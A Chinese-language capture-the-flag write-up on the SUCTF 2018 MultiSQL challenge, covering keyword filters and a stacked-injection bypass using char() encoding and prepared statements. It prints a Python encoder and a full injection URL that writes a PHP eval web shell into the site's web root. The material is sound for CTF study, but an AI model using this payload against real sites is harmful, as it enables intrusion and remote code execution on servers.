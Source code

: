 ```yaml
---
title: '[SUCTF 2018]MultiSQL'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-11-18 22:27:00
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1113336.jpg
---
```

[SUCTF 2018]MultiSQL

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720201118131923.png)

注册登陆界面似乎并不存在sql注入，上面留言板啥的都是摆设，然后试了下编辑信息那里的一个头像上传，没法解析，所以也不行。
最后发现一个可疑的注入点，user.php?id=3，还是在个人信息那里，首先试了下1^1^1,成功返回admin。
简单测试发现过滤了union，select ，&，|，substr。
存在堆叠注入，用chrar()绕过过滤，再用预处理语句执行。

str="select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/shell.php';"
len_str=len(str)
for i in range(0,len_str):
	if i == 0:
		print('char(%s'%ord(str[i]),end="")
	else:
		print(',%s'%ord(str[i]),end="")
print(')')


?id=2;set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare query from @sql;execute query;


